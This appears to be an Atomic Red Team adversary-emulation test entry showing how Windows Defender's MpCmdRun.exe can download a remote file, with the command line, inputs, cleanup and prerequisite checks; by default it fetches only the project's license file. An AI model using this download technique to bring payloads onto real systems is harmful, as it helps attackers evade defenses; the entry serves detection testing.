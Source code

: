 



<br/>
<br/>

## Atomic Test #13 - Download a File with Windows Defender MpCmdRun.exe
Uses Windows Defender MpCmdRun.exe to download a file from the internet (must have version 4.18 installed).
The input arguments "remote_file" and "local_path" can be used to specify the download URL and the name of the output file.
By default, the test downloads the Atomic Red Team license file to the temp directory.

More info and how to find your version can be found here https://lolbas-project.github.io/lolbas/Binaries/MpCmdRun/

**Supported Platforms:** Windows


**auto_generated_guid:** 815bef8b-bf91-4b67-be4c-abe4c2a94ccc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | URL of file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Location to save downloaded file | path | %temp%&#92;Atomic-license.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cd "%ProgramData%\Microsoft\Windows Defender\platform\4.18*"
MpCmdRun.exe -DownloadFile -url #{remote_file} -path #{local_path}
```

#### Cleanup Commands:
```cmd
del #{local_path} >nul 2>&1
del %temp%\MpCmdRun.log >nul 2>&1
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Must have a Windows Defender version with MpCmdRun.exe installed
##### Check Prereq Commands:
```cmd
cd "%ProgramData%\Microsoft\Windows Defender\platform\4.18*"
MpCmdRun.exe /?  >nul 2>&1
```
##### Get Prereq Commands:
```cmd
Echo "A version of Windows Defender with MpCmdRun.exe must be installed manually"
```
